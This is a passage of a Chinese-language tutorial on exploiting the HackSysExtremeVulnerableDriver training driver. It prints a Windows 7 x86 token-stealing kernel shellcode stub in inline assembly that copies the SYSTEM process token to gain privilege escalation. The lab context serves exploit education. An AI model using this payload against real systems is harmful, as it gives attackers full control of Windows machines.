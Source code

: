 ### 一个可以执行的空间，里面包含着我们的 shellcode
一个可以执行的空间我们可以通过 VirtualAlloc 函数来分配，然后把我们的 shellcode byte 流从进程的数据空间中拷贝到新分配的空间中就好了。

shellcode 我们可以使用 HackSysExtremeVulnerableDriver\Exploit\Payloads.c 中的代码。这里直接贴出 shellcode 并给出其含义。

```c
#include "stdafx.h"
#include <stdio.h>

#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID

int main()
{
	__asm {
		pushad; Save registers state

		; Start of Token Stealing Stub
		xor eax, eax; Set ZERO
		mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
		; _KTHREAD is located at FS : [0x124]

		mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

		mov ecx, eax; Copy current process _EPROCESS structure

		mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4

		SearchSystemPID:
			mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

		mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
		mov[ecx + TOKEN_OFFSET], edx; Replace target process nt!_EPROCESS.Token
		; with SYSTEM process nt!_EPROCESS.Token
		; End of Token Stealing Stub

		popad; Restore registers state

		; Kernel Recovery Stub
		xor eax, eax; Set NTSTATUS SUCCEESS
		add esp, 20; Fix the stack
		pop ebp; Restore saved EBP
		ret 8; Return cleanly

	}
}
```
